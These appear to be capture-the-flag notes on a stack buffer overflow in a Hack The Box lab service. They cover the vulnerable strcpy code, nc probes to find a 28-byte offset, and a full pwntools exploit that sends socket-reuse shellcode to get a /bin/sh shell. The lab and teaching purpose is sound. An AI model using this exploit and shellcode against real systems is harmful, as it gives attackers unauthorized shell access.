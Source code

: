 # 15 - Buffer Over Flow

# strcpy binary overflow
```c
int auth(char *username, char *password) {
    char userpass[16];
    printf("Debug: userpass buffer @ %p\n", userpass);
    strcpy(userpass, password);
}

int handle(int sock) {
    char password[256];
```
Userpass 16 byte and password is 256 byte


Since we don't know the version of gcc or the compiler that compiled the binary it's better to download and check the executable ourselves rather than relying on compile.sh
checksec is a wonderful tool that comes with pwntools
![](vx_images/2508317871258.png)


# Expected result if password is wrong
```bash
┌─[user@parrot]─[10.10.14.12]─[~/htb/jail/dev]
└──╼ $ python2  -c "print 'DEBUG on\nUSER admin\nPASS ' + 'A' *14" | nc 10.10.10.34 7411
OK Ready. Send USER command.
OK DEBUG mode on.
OK Send PASS command.
Debug: userpass buffer @ 0xffffd610
Incorrect username and/or password.
ERR Authentication failed.
```

# The last ERR line is missing potentially a segmentation fault with high password size
```bash
┌─[user@parrot]─[10.10.14.12]─[~/htb/jail/dev]
└──╼ $ python2  -c "print 'DEBUG on\nUSER admin\nPASS ' + 'A' *256" | nc 10.10.10.34 7411
OK Ready. Send USER command.
OK DEBUG mode on.
OK Send PASS command.
Debug: userpass buffer @ 0xffffd610
```


# Offset 28
```sql
┌─[user@parrot]─[10.10.14.12]─[~/htb/jail/dev]
└──╼ $ python2  -c "print 'DEBUG on\nUSER admin\nPASS ' + 'A' *27" | nc 10.10.10.34 7411
```
Python adds a new line but it is cut out by strtok function and replaced by a null byte so our payload looks more like 

'A' *27 + '\x00'




```
  STROK(3)
Each  call  to  strtok() returns a pointer to a null-terminated string containing the next token.
This string does not include the delimiting byte. # (0x0a) will be replaced by 0x00
```

# exploit.py
```py
#!/usr/bin/env python
from pwn  import * 

####  payload
buffer_ = b'A'* 28
address= p32(0xffffd610+32)
# https://www.exploit-db.com/exploits/34060
shellcode = b"\x6a\x02\x5b\x6a\x29\x58\xcd\x80\x48\x89\xc6"
shellcode += b"\x31\xc9\x56\x5b\x6a\x3f\x58\xcd\x80\x41\x80"
shellcode += b"\xf9\x03\x75\xf5\x6a\x0b\x58\x99\x52\x31\xf6"
shellcode += b"\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
shellcode += b"\x89\xe3\x31\xc9\xcd\x80";



#### defaults
ip = "10.10.10.34"
port = 7411
debug = b"DEBUG on\n"
user_ = b"USER admin\n"
pass_ = b"PASS " + buffer_ +address + shellcode
####

payload = debug + user_ + pass_

if __name__ == '__main__':
        s = remote(ip,port)
        s.send(payload)
        s.interactive()
```

Realize we can't use a reverse shell because our ip includes 10 which is 0x0a or \n new line character. strtok function won't let us use hex 0x0a. We can use socket reuse which will basically execve('/bin/sh') but will remember the socket.

Address + 28 + 4 because we want to return to the stack

|    Stack    |    ADDRESS    |
| ----------- | ------------- |
| buffer      | 0xffffd610    |
| ret address | 0xffffd610+28 |
| shellcode   |      0xffffd610+32         |


![](vx_images/5376231168893.png)
